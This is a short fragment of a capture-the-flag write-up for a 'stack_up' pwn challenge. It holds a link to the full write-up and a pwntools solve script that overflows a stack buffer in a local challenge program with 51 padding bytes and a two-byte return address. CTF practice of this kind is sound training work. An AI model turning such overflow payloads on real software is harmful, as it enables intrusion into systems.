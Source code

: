 [FULL OFFICIAL WRITEUP](https://github.com/D13David/ctf-writeups/tree/main/1337uplive/pwn/stack_up)

#### solve.py

```py
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```
